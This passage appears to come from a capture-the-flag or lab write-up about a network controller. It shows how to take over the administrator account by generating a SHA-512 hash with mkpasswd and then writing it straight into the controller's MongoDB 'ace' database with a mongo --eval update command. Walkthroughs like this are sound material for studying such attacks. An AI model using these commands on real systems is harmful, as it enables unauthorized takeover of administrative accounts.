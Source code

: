 There
 is an administrator user, in the x_shadow file it is an SHA-512 hash of
 the password, you can try to crack it but it nos possible. So we will 
update the admin user and change it password by a chose one.

We generate the hash of new password

```
mkpasswd -m sha-512 Password
```

We update the administrator user and add the password of our custom hash with the follow command

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"HASH GENERATES"}})'
```

We verify is the update was done

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

And try to connect with username and our custom password

![1_2xQAhavNmhbPROIpxbiVCA.webp](1_2xQAhavNmhbPROIpxbiVCA.webp)

The manage console is now open

![1_GyheaEaMpaZf-SHcBHjJLQ.webp](1_GyheaEaMpaZf-SHcBHjJLQ.webp)
